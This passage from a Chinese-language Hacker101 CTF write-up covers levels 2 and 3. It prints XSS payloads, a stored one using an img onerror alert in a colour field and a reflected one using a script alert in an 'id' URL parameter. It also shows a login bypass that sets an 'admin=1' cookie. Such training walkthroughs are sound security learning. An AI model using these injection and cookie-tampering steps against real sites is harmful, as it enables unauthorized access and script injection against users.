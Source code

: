 ```
[ red"><img src="" onerror="alert(1)" /> " | All ] [ orange | the ] [ yellow | colors ] [ green | of ] [ blue | the ] [ purple | rainbow! ]
```

“颜色” 没有进行过滤和转发，在各种颜色后面都可以触发 XSS。

### [](#Reflected-XSS "Reflected XSS")Reflected XSS

```
https://levels-a.hacker101.com/levels/2/edit?id="><script>alert("xss")</script>
```

测试参数 id，发现存在发射型 XSS。

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517843354347.png)

不知道是什么意思

[](#level-3 "level 3")level 3
-----------------------------

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517886629056.png)

进来看了一下题，有 xss，但是没有框、参数之类的。那就先做 Improper Authorization 吧！

### [](#Improper-Authorization "Improper Authorization")Improper Authorization

源码里的 js 写的很清楚，需要改 cookie 绕过登录。

```
var page = window.location.hash.substring(1);
if(page == '')
	page = 'index';
	var cookies = document.cookie.split(';');
	for(var i in cookies) {
		var cookie = cookies[i].replace(/ /g, '').split('=');
		if(cookie[0] == 'admin' && cookie[1] == '1')
		document.write('<a href="/levels/3/admin?page=' + page + '">Edit this page</a>');
```

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517887951491.png)

结合 js 和 cookie 值可知，修改 cookie 中 admin 对应的值 1, 即可。

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517886865871.png)

修改之后，首页多了一个链接。现在的身份已经是 admin 了。

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517886498406.png)

#### [](#技巧 "技巧")技巧

调试的时候，不知道 cookie[0] 当前值为多少，但想知道当前值是多少。怎么办，可以写油猴脚本。此题这样做可能会复杂一点，若是复杂一点的逻辑可以试试这种方法。
